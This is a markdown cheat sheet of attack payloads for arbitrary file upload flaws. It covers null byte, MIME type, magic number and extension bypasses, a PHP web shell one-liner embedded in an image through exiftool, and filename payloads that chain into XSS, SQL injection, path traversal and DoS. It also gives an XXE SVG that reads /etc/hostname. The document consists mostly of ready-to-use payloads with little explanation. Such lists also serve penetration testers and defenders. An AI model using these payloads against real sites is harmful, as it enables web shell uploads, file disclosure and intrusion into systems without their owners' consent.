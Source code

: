 ### Vulnerabilities via Arbitrary File Upload


### Bypasses

#### Null Byte Bypass
##### Make a file image.phpA.png and replace with Null Byte instead of A
```
image.php%00.png
image.php\x00.png
```

#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |


### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
